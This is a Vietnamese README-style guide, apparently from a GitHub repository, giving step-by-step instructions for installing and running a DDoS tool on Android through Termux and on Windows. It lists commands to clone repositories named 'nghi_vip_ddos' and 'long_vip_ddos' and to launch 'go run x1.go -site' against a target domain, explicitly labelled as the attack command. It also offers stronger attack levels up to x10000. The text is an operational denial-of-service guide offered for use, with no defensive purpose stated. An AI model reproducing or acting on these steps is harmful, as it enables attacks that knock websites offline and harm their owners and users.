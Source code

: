 ---------- Trên Điện Thoại Android ----------

Bước 1: Cài Đặt Ứng Dụng Termux
Link Tải: https://apkcombo.com/vi/termux/com.termux/

Bước 2: Mở Ứng Dụng Termux Chạy Các Lệnh Theo Thứ Tự
1. pkg install git
2. pkg install golang
3. git clone https://github.com/Nghi235/nghi_vip_ddos.git (lệnh cài đặt tool)
4. cd nghi_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
5. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "4"

---------- Trên Hệ Điều Hành Windows ----------

Bước 1: Cài Đặt "Git For Windows"
Link Tải: https://gitforwindows.org/

Bước 2: Cài Đặt "Golang For Windows"
Link Tải: https://go.dev/doc/install

Bước 3: Ấn Tổ Hợp Phím "Windows+R" Tìm Kiếm "cmd" Và Ấn Enter Chạy Các Lệnh Sau
1. git clone https://github.com/azvpn/long_vip_ddos.git (lệnh cài đặt tool)
2. cd long_vip_ddos && go run x1.go -site https://domain.com (lệnh tấn công, bạn có thể thay x1 bằng càng mức tấn công mạnh hơn như x5, x10, x50, x100, x500, x1000, x5000, x10000)
3. Các Lần Tấn Công Sau Chỉ Cần Chạy Lệnh "2"
